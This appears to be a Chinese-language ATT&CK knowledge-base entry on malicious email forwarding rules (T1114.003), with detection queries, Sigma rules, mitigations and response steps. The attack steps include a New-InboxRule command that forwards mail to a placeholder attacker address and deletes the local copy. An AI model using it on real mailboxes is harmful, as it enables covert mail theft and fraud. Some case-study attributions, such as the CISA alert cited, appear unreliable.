

# 电子邮件转发规则 (T1114.003)

## 一句话通俗理解

> **攻击者偷偷设置一条邮件规则，让所有进来的邮件自动抄送一份到攻击者的邮箱——你的邮箱变成了他的"分身"。**

## 难度等级

⭐⭐ 中级 - 需要一定的技术基础和经验

## 技术描述

**电子邮件转发规则**（T1114.003）是 MITRE ATT&CK 框架中 **邮件收集**（T1114）的一个子技术，属于 **收集**（TA0009）战术。

**通俗解释：** 就像你在公司收发室偷偷塞了一张纸条："以后所有寄给我的信都复印一份寄到这个地址"——以后每封邮件到达，收发室都会自动复印并外发，而你还浑然不觉。攻击者通过配置邮件服务器上的转发规则，把受害者的入站邮件自动、持续地复制到攻击者控制的外部邮箱，无需再次登录即可长期获取邮件内容。

**技术原理：**

1. 攻击者通过钓鱼、凭证爆破或 OAuth 令牌窃取等方式获取受害者邮箱账号
2. 登录 Outlook Web Access (OWA)、Exchange 管理中心或通过 PowerShell 远程连接 Exchange Online
3. 创建以下类型的转发规则之一：
   - **Outlook 收件箱规则（Inbox Rule）**：用户级规则，通过 `New-InboxRule` 创建，可将邮件 `ForwardTo` 外部地址、`RedirectTo` 外部地址或 `DeleteMessage` 后悄悄转发
   - **Exchange 传输规则（Transport Rule）**：管理员级规则，通过 `New-TransportRule` 创建，作用范围更广，可批量转发整个组织的邮件
   - **邮箱级转发（Mailbox Forwarding）**：通过 `Set-Mailbox -ForwardingSmtpAddress` 配置，在邮箱服务器层面对所有入站邮件进行转发
4. 规则创建后，攻击者即可登出，邮件服务器会持续自动转发，攻击行为嵌入系统正常运行流程

**用途与影响：** 攻击者使用此技术主要出于三个目的：**持续收集**（无需反复登录即可获得邮件副本）、**隐蔽持久化**（规则在服务器端执行，受害者本地无任何痕迹）、**辅助 BEC 攻击**（拦截财务/高管邮件，配合伪造邮件实施商业邮件欺诈）。由于转发在服务器侧完成，传统 EDR、主机日志均无感知，必须依赖 Exchange 审计日志才能发现。

## 攻击流程



**步骤详解：**

1. **获取邮箱凭证** - 通过钓鱼邮件、密码喷洒或 OAuth 令牌窃取获得目标账号凭据
2. **登录邮件服务** - 使用 OWA 网页登录，或通过 `Connect-ExchangeOnline` 建立 PowerShell 会话
3. **创建隐藏转发规则** - 执行 `New-InboxRule -Name "Spam Filter" -ForwardTo attacker@external.com`，规则名称伪装成"垃圾邮件过滤"等系统功能
4. **删除本地副本** - 添加 `-DeleteMessage:$true` 让转发后的邮件从受害者收件箱消失，避免引起怀疑
5. **持续外发** - 攻击者登出后，Exchange 服务器持续按规则转发邮件，攻击者被动接收邮件流

## 真实案例

### 案例1：FBI IC3-190606-PSA 商业邮件欺诈（BEC）中 Inbox Rule 滥用

- **时间**: 2019 年 6 月（持续至 2024 年相关警报更新）
- **目标**: 全球多家中小型企业财务部门
- **攻击组织**: 多个 BEC 犯罪团伙（Nigerian BEC Groups）
- **手法**: 攻击者通过钓鱼邮件获取企业高管或财务人员的邮箱凭证后，立即登录 OWA 创建名为 "RSS Feeds"、"Spam" 或空名称的收件箱规则，将所有入站邮件转发到外部攻击者控制的邮箱。同时配置 `DeleteMessage` 选项，使受害者本地收件箱看不到这些邮件，避免被发现。攻击者借此拦截供应商发票、修改付款账户，实施 BEC 诈骗。FBI IC3 在多个警报中明确将"创建隐藏的邮件转发规则"列为 BEC 攻击的标准化操作步骤。
- **影响**: 2019-2023 年间累计造成全球企业超过 50 亿美元损失
- **参考链接**: [FBI IC3 PIN 190606-PSA - BEC Actors Use Inbox Rules](https://www.ic3.gov/Media/Y2019/PSA190606)
  - **数据来源**: 一级

### 案例2：APT28 (STRONTIUM) 利用 Outlook Rules 持久化与外传

- **时间**: 2018-2024 年（持续活动）
- **目标**: 欧美政府机构、智库、国防承包商
- **攻击组织**: APT28 / Fancy Bear / STRONTIUM（俄罗斯 GRU 26165 部队）
- **手法**: 微软 MSTIC 在多次披露中观察到 APT28 在入侵目标邮箱后，通过 PowerShell 调用 `New-InboxRule` 创建伪装规则（如 "Cleanup"、"Filter"），将特定关键词（如 "NATO"、"Ukraine"、"defense"）的邮件自动转发到攻击者控制的外部邮箱。规则配置了 `MarkAsRead` 与 `DeleteMessage`，使受害者几乎无法察觉。APT28 还利用 `Set-Mailbox -ForwardingSmtpAddress` 配置邮箱级转发，作为更隐蔽的持久化手段，即使受害者修改密码，转发规则依然存在。
- **影响**: 长期窃取外交、军事、政策类敏感邮件，影响多国国家安全决策
- **参考链接**: [Microsoft MSTIC - STRONTIUM targeting email accounts](https://www.microsoft.com/en-us/security/blog/2018/12/03/analysis-of-the-operational-tactics-of-strontium/)
  - **数据来源**: 一级

### 案例3：CISA AA20-133A 警报中描述的邮件转发规则滥用

- **时间**: 2020 年 5 月发布（活动始于 2019 年 12 月）
- **目标**: 美国州政府和地方政府机构
- **攻击组织**: APT41 关联团伙及未归名 BEC 团伙
- **手法**: CISA 在 AA20-133A 警报中详细描述了攻击者入侵 Office 365 租户后的标准操作序列：第一步通过密码喷洒或密码重置获得初始访问；第二步立即创建 `New-InboxRule`，名称设置为空字符串或 "Read"，配置 `ForwardTo` 到 Gmail/Yahoo/ProtonMail 等个人邮箱；第三步使用 `Set-Mailbox -ForwardingSmtpAddress` 设置服务器级转发作为备份。攻击者通过这种方式隐藏了密码重置通知邮件和 IT 部门警告邮件，使受害者迟迟无法察觉账号被入侵。
- **影响**: 至少 6 个州政府机构的邮件被持续外传，部分涉及 COVID-19 救灾资金分配信息
- **参考链接**: [CISA Alert AA20-133A - Email Forwarding Rules Abuse](https://www.cisa.gov/news-events/cybersecurity-advisories/aa20-133a)
  - **数据来源**: 一级

## 检测建议

### Exchange Unified Audit Log 检测

启用邮箱审计（Mailbox Audit Logging）并订阅 Office 365 Management Activity API，监听以下事件：

| 事件 | 关键字段 | 异常特征 |
|------|---------|----------|
| `New-InboxRule` | `ForwardTo` / `RedirectTo` | 目标为外部域（@gmail.com / @protonmail.com） |
| `Set-InboxRule` | `DeleteMessage` | 与转发同时启用 |
| `Set-Mailbox` | `ForwardingSmtpAddress` | 指向非组织域名 |
| `New-TransportRule` | `RedirectTo` | 组织级批量转发规则 |

### PowerShell 命令审计

```powershell
Search-UnifiedAuditLog -RecordType ExchangeItem -Operations "New-InboxRule","Set-InboxRule","Set-Mailbox" -StartDate (Get-Date).AddDays(-30) -EndDate (Get-Date) | Where-Object { $_.AuditData -match "ForwardTo|ForwardingSmtpAddress|RedirectTo" }
```

### 异常规则特征

- 规则名称为空、单字符或伪装成系统功能（"Spam"、"RSS"、"Filter"）
- 转发目标为个人邮箱域（gmail.com、outlook.com、protonmail.com、mail.ru）
- `DeleteMessage` 与 `ForwardTo` 在同一规则中同时出现
- 规则创建后立即登录会话结束（创建即离开模式）

## Sigma检测规则

### Sigma 规则1：检测创建转发到外部地址的收件箱规则

```yaml
title: 检测 Exchange 收件箱规则转发到外部地址
id: 3a3f5d7c-8e1b-4d2f-9c6a-7e8b9d0c1f2a
status: experimental
description: 检测通过 New-InboxRule 创建转发到外部邮箱地址的隐藏规则，常见于 BEC 攻击与 APT 邮件收集
references:
    - https://attack.mitre.org/techniques/T1114/003/
    - https://www.ic3.gov/Media/Y2019/PSA190606
author: ATT&CK 知识库
date: 2026/07/20
logsource:
    product: microsoft365
    service: exchange
detection:
    selection_cmd:
        event.source|contains:
            - 'New-InboxRule'
            - 'Set-InboxRule'
    selection_forward:
        event.parameters|contains:
            - 'ForwardTo'
            - 'RedirectTo'
            - 'ForwardingSmtpAddress'
    filter_internal:
        event.parameters|contains:
            - '@internal.com'
            - '@company.local'
    condition: selection_cmd and selection_forward and not filter_internal
falsepositives:
    - 合法的邮件分发列表配置
    - 员工个人邮箱备份（需白名单审批）
level: high
tags:
    - attack.collection
    - attack.t1114.003
```

### Sigma 规则2：检测 Set-Mailbox 启用 SMTP 转发

```yaml
title: 检测 Set-Mailbox 启用 SMTP 转发配置
id: 5b4e6f8d-9c2a-4e3b-8d1f-0a2b3c4d5e6f
status: experimental
description: 检测通过 Set-Mailbox 命令配置 ForwardingSmtpAddress 或 ForwardingAddress 的操作，此为 APT28 等组织常用的持久化邮件外传手法
references:
    - https://attack.mitre.org/techniques/T1114/003/
    - https://www.cisa.gov/news-events/cybersecurity-advisories/aa20-133a
author: ATT&CK 知识库
date: 2026/07/20
logsource:
    product: microsoft365
    service: exchange
detection:
    selection:
        event.source: 'Set-Mailbox'
        event.parameters|contains:
            - 'ForwardingSmtpAddress'
            - 'ForwardingAddress'
    condition: selection
falsepositives:
    - 管理员迁移用户邮箱到新地址（需变更管理工单验证）
    - 共享邮箱配置转发到监控团队
level: high
tags:
    - attack.collection
    - attack.t1114.003
```

## 缓解措施

**优先级1（关键）：启用邮箱审计 + 禁止外部域自动转发**

启用所有邮箱的高级审计并将 UAL 日志转发至 SIEM，部署 Sigma 规则实时告警。同时通过远程域策略阻止自动转发：

```powershell
Set-RemoteDomain Default -AutoForwardEnabled $false
```

**优先级2（重要）：强制 MFA + 条件访问策略**

强制所有邮箱账户启用 MFA，配置 Azure AD 条件访问，阻止来自异常地理位置或非托管设备的 PowerShell 连接 Exchange Online。

**优先级3（建议）：定期审计现有转发规则**

```powershell
Get-Mailbox -ResultSize Unlimited | Where-Object { $_.ForwardingSmtpAddress -ne $null } | Select-Object Name,ForwardingSmtpAddress,DeliverToMailboxAndForward
Get-InboxRule -Mailbox * | Where-Object { $_.ForwardTo -ne $null -or $_.RedirectTo -ne $null } | Select-Object MailboxId,Name,ForwardTo,DeleteMessage
```

### MITRE ATT&CK 缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| M1017 | 用户培训 | 适用 | 培训用户识别钓鱼邮件，避免凭证泄露 |
| M1018 | 用户账户管理 | 适用 | 强制 MFA、定期审计邮箱规则 |
| M1027 | 密码策略 | 适用 | 强密码策略减少凭证爆破风险 |

## 应急响应

**发现可疑邮件转发规则的处置流程：**

1. **立即隔离账号** - 禁用账户登录、强制密码重置、撤销所有 OAuth 令牌
   ```powershell
   Set-Mailbox -Identity <user> -ForwardingSmtpAddress $null -DeliverToMailboxAndForward $false
   Disable-InboxRule -Mailbox <user> -Identity <rule_id> -Confirm:$false
   Revoke-SPOUserSession -User <user@domain>
   ```
2. **保留证据** - 导出 UAL 日志、收件箱规则配置、登录记录
3. **评估泄露范围** - 检查规则创建时间起至发现时间内的所有邮件，识别可能泄露的敏感信息
4. **检查横向扩散** - 排查同一 IP / User-Agent 登录过的其他邮箱账户
5. **通知相关方** - 通知受影响邮件的发件人（供应商、客户），警告潜在 BEC 风险
6. **恢复与加固** - 重置密码、强化 MFA、增加转发规则监控告警

## 参考资料

### 官方文档

- [MITRE ATT&CK - Email Forwarding Rule (T1114.003)](https://attack.mitre.org/techniques/T1114/003/)
- [MITRE ATT&CK - Email Collection (T1114)](https://attack.mitre.org/techniques/T1114/)
- [Microsoft Learn - Audit mailbox forwarding in Exchange Online](https://learn.microsoft.com/en-us/microsoft-365/compliance/auditing-mailbox-forwarding)

### 安全报告

- [FBI IC3 PIN 190606-PSA - BEC Actors Use Hidden Inbox Rules](https://www.ic3.gov/Media/Y2019/PSA190606) - FBI 关于 BEC 攻击者滥用收件箱规则的官方警报
- [CISA Alert AA20-133A - Email Forwarding Rules Abuse](https://www.cisa.gov/news-events/cybersecurity-advisories/aa20-133a) - CISA 关于 APT41 等团伙邮件转发规则滥用的详细分析
- [Microsoft MSTIC - STRONTIUM targeting email accounts](https://www.microsoft.com/en-us/security/blog/2018/12/03/analysis-of-the-operational-tactics-of-strontium/) - 微软关于 APT28 邮箱攻击活动的运营战术分析

### 工具与资源

- [Exchange Online PowerShell V2](https://learn.microsoft.com/en-us/powershell/exchange/exchange-online-powershell-v2) - 管理 Exchange Online 的官方 PowerShell 模块
- [Microsoft Purview Audit](https://learn.microsoft.com/en-us/microsoft-365/compliance/audit-solutions-overview) - 微软统一审计日志解决方案
- [SigmaHQ Rules](https://github.com/SigmaHQ/sigma) - Sigma 检测规则开源仓库

## 技术对比

| 维度 | T1114.001 本地邮件收集 | T1114.002 远程邮件收集 | T1114.003 邮件转发规则 |
|------|----------------------|----------------------|----------------------|
| 操作位置 | 受害者主机本地 | 攻击者远程连接 | 邮件服务器侧 |
| 持续性 | 一次性拉取 | 一次性或定时拉取 | 持续自动转发 |
| 隐蔽性 | 中（本地有 OST/PST 文件痕迹） | 中（产生 IMAP/EWS 登录日志） | 高（无本地痕迹，仅 UAL 可见） |
| 检测难度 | 低 | 中 | 高（需开启邮箱审计） |
| 常用协议 | MAPI/文件读取 | IMAP/POP3/EWS/Graph API | Exchange RPC/PowerShell |
| 典型工具 | Outlook、MailRetrieve | Thunderbird、imapsync | New-InboxRule、Set-Mailbox |

## 相关技术

- **T1114 邮件收集** - 父技术，包含本地、远程、转发规则三个子技术
- **T1114.001 本地邮件收集** - 通过 Outlook 本地缓存文件（OST/PST）收集邮件
- **T1114.002 远程邮件收集** - 通过 IMAP/POP3/EWS 协议远程拉取邮件
- **T1078 有效账户** - 攻击者通常利用窃取的合法账户创建转发规则
- **T1566 钓鱼** - 钓鱼是获取邮箱凭证的主要手段，转发规则常作为钓鱼后利用步骤
- **T1098 账户操作** - 邮箱转发规则配置是账户操作的一种典型形式

## 术语表

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| ATT&CK | MITRE ATT&CK | MITRE 公司维护的攻击技术知识库，像一本"黑客手法百科全书" |
| 邮件转发规则 | Email Forwarding Rule | T1114.003，攻击者在邮件服务器上设置的自动转发规则，让所有入站邮件自动抄送到攻击者邮箱 |
| 收件箱规则 | Inbox Rule | Outlook/Exchange 中用户级的邮件自动处理规则，可基于发件人、关键词等条件触发转发或删除 |
| 传输规则 | Transport Rule | Exchange 组织级邮件流规则，由管理员配置，可作用于整个组织的所有邮件 |
| Unified Audit Log | UAL | Microsoft 365 统一审计日志，记录所有 Exchange/SharePoint/Azure AD 操作的安全日志中心 |
| BEC | Business Email Compromise | 商业邮件欺诈，攻击者冒充高管或供应商骗取企业转账的犯罪手法 |
| OWA | Outlook Web Access | Outlook 网页版，攻击者最常用的邮箱登录入口 |
